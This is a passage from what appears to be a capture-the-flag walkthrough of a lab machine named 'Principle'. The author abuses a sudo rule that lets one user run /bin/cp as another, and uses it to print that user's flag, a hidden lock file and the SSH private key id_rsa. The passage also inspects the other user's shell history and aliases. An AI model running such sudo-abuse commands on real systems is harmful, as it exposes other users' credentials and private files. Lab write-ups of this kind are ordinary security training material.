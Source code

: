 ```
talos@Principle:~$ ls -la /home/gehenna/
total 40
drwxr-xr-x 4 elohim elohim 4096 Jul 14 11:25 .
drwxr-xr-x 4 root   root   4096 Jul  4 06:11 ..
-rw------- 1 elohim elohim  289 Jul 14 06:38 .bash_history
-rw-r----- 1 elohim elohim  261 Jul  5 08:13 .bash_logout
-rw-r----- 1 elohim elohim 3830 Jul 14 06:37 .bashrc
-rw-r----- 1 elohim elohim  777 Jul 13 17:19 flag.txt
drw-r----- 3 elohim elohim 4096 Jul  2 20:52 .local
-rw-r----- 1 elohim elohim   21 Jul 12 05:35 .lock
-rw-r----- 1 elohim elohim  807 Jul  6 06:28 .profile
drwx------ 2 elohim elohim 4096 Jul  6 11:05 .ssh
```

We can get our first flag:

```
talos@principle:/bin$ sudo -u elohim /bin/cp /home/gehenna/flag.txt /dev/stdout
```

`lock` seems an interesting file, above all after the hint that `talos` give us:

>he keeps the lock coded and hidden at home

So we print the file content and keep a copy of in our machine:

```
talos@principle$ sudo -u elohim /bin/cp /home/gehenna/.lock /dev/stdout
```

Another interesting directory is `.ssh`.
Seems that elohim could connect via ssh using an rsa private key.
But, we didn't find an ssh service exposed...
Anyway, we are going to copy the directory content to our /home.
We can't list the files here, but there always the same, so we try a the usual names:

```
$ sudo -u elohim /bin/cp /home/gehenna/.ssh/authorized_keys /dev/stdout
```

```
$ sudo -u elohim /bin/cp /home/gehenna/.ssh/id_rsa /dev/stdout
```

And we save in our machine the content of these files too.

We also can see some interesting information gossiping the `.bashrc` and `.bash_history` files.
We can see that `elohim` edited the python subprocess library:

```
nano /usr/lib/python3.11/subprocess.py
```

And we can see that `elohim` has some aliases defined to restrict a few commands:

```
# GOD aliases
alias cat="rbash cat: restricted"
alias vi='rbash: vi: restricted'
alias pico='rbash: pico: restricted'
alias nano='rbash: nano: restricted'
```
